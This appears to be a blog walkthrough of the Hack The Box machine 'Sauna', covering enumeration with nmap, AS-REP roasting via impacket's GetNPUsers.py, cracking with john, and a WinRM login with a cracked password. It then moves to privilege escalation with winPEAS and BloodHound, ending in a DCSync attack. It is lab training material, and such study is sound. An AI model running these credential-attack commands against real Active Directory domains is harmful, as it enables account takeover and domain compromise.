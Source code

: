 ```yaml
---
layout: post
title: Hack The Box - Sauna
category: walkthrough
date:   2020-07-28 05:00:00
---
```


# ![sauna](/assets/img/sauna/sauna.png)  
  
<p align="center"> Sauna is a easy machine created by <a egotisticalSW href="https://www.hackthebox.eu/home/users/profile/94858"> egotisticalSW</a></p>

# Enum  
  
  
### <center>nmap</center>  
  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-28 02:53 -03  
>Nmap scan report for 10.10.10.175  
>Host is up (0.21s latency).  
>Not shown: 5920 filtered ports  
>PORT     STATE SERVICE       VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP: 
>|     version  
>|_    bind  
>80/tcp   open  http          Microsoft IIS httpd 10.0  
>| http-methods: 
>|_  Potentially risky methods: TRACE  
>|_http-server-header: Microsoft-IIS/10.0  
>|_http-title: Egotistical Bank :: Home  
>88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-28 12:57:59Z)  
>135/tcp  open  msrpc         Microsoft Windows RPC  
>139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn  
>389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds?  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn\_http    Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
>|_http-server-header: Microsoft-HTTPAPI/2.0  
>|_http-title: Not Found  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=7/28%Time=5F1FBD97%P=x86\_64-pc-linux-gnu%r(DNSV  
>SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\  
>SF:x04bind\0\0\x10\0\x03");  
>Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows  
  3268
>Host script results:  
>|_clock-skew: mean: 7h03m31s, deviation: 0s, median: 7h03m31s  
>| smb2-security-mode: 
>|   2.02: 
>|_    Message signing enabled and required  
>| smb2-time: 
>|   date: 2020-07-28 10:00:17  
>|_  start_date: N/A  
  
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 308.65 seconds  
  
<p align="center">  
nmap output show me the domain egotistical-bank.local, this is the domain controller.  
nmap also show kerberos 88, IIS 80, ldap 389 and 3268, and 5985 using http, this port usually is WinRM.  
  
First thing I thought was <a href=https://www.tarlogic.com/en/blog/how-to-attack-kerberos/>kerberoasting</a>  
I used <a href="(https://github.com/ifconfig-me/impacket">impacket</a>'s GetADUser.py, but got nothing...  
  
In port 80 I got this page  
</p>
# ![index](/assets/img/sauna/sauna1.png)  
  
<center>Searching something usefull I found usernames on page "About Us"</center>  
# ![users](/assets/img/sauna/sauna2.png)  
  
<p align="center">  
I creted a wordlist with this names, and some possibilities...  
>f.smith  
>fsmith  
>h.bear  
>hbear  
>s.coins  
>scoins  
>btaylor  
>b.taylor  
>s.driver  
>sdriver  
  
My wordlist have a lot more, but there's no need of all...  
  
Now I can use impacket's GetNPUsers.py  
  
  
### Exploit
./GetNPUsers.py egotistical-bank.local/ -usersfile users.txt -request -no-pass -dc-ip 10.10.10.175 -format john  --outputfile hash  
</p>
# ![fsmithHash](/assets/img/sauna/sauna3.png)  
<p align="center">
With the brute force of my friend john I cracked this hash  
  
john -w /usr/share/wordlists/rockyou.txt hash  
  
</p>
# ![passwd](/assets/img/sauna/sauna4.png)
  
<p align="center">The part I like most in attacking windows, is the <a href="https://github.com/Hackplayers/evil-winrm">evil</a> part
  
./evil-winrm.rb -i 10.10.10.175 -p Thestrokes23 -u fsmith</p>  
  
# ![evilLogin](/assets/img/sauna/sauna5.png)  
  
### <center>Privilege Escalation</center>  
  
<p align="center">To privelige escalation in windows the first thing I use is <a href="https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat">winPEAS.bat</a>  
  
Uploaded winPEAS.bat with upload command of evil-winrm and executed it  
winPEAS spits a lot of informations about everything in the machine  
and found a pass for other user</p>  
# ![svc](/assets/img/sauna/sauna6.png)  
  
<p align="center">Logged in as svc\_loanmgr and invoked the <a href="https://github.com/fox-it/BloodHound.py">hound</a></p>  
  
# ![bloodHound](/assets/img/sauna/sauna7.png)  
  
<center>ziped the json files and sent it to bloodhound</center>  
  
<center>The hound says: svc\_loanmgr is connected to egotistical-bank with getChangesAll and you should try a DCSYnc attack..</center>  
  
# ![HoundHelp](/assets/img/sauna/sauna8.png)  
  
<center>Let's get back to impacket</center>  
  
# ![hashdump](/assets/img/sauna/sauna9.png)  
  
<center>And evil again</center>  
  
# ![evilAdmin](/assets/img/sauna/sauna10.png)  
  
